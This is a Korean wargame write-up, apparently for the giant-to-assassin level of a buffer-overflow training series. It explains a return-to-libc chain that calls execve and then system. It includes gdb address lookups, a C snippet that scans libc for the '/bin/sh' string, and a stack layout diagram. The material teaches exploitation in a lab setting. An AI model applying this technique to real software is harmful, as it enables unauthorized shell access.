 ### Solution

문제 조건에 의해 system이 아닌 execve를 이용해야한다.

``` gdb
(gdb) print execve
$1 = {<text variable, no debug info>} 0x400a9d48 <__execve>
```

이전 풀이처럼 접근했을 경우 한가지 문제점이 존재하는데 argv[2]로 주어진 /bin/sh의 주소를 찾기 위해 core를 분석해야하는데 이 문제의 경우 giant 권한으로 assasin 바이너리를 사용하기 때문에 core를 분석할 수 없다. 이를 해결하기 위해 system 함수 내부에서 사용하는 /bin/sh 문자열의 위치를 파악해야한다.

* system 함수는 /bin/sh -c "명령어" 의 형식으로 실행되기 때문에 내부에 /bin/sh 라는 문자열을 내포하고 있다. 이 문자열의 주소를 찾는 방법은 다음과 같다.

``` c
#include<stdio.h>
#include<stdlib.h>

int main(void)
{
	void *binsh = 0x40058ae0; // offset of system function
	while(1)
	{
		if(memcmp(binsh, "/bin/sh", 8)==0)
			break;
		binsh++;
	}
	printf("%p = %s\n",binsh,binsh);
}
```

이 소스를 컴파일하여 실행해보면 다음과 같은 결과를 얻을 수 있다.
0x400fbff9 = /bin/sh

즉 /bin/sh는 0x400fbff9에 있다는 것이다.

execve는 인자를 3개나 넘겨야 하는 불편함이 있다. 이를 해결하기 위해 간단한 RTl Chain을 이용하여 system 함수를 호출할 것이다.

``` gdb
(gdb) print system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
```

stack 구조는 다음과 같다.

``` notepad
낮은 주소
              |   esp   |
-------------------------
mainret       | &execve |
-------------------------
execveret     | &system |
-------------------------
systemret     | dummy   |
-------------------------
system argv1  | &/bin/sh|
-------------------------
높은 주소
```
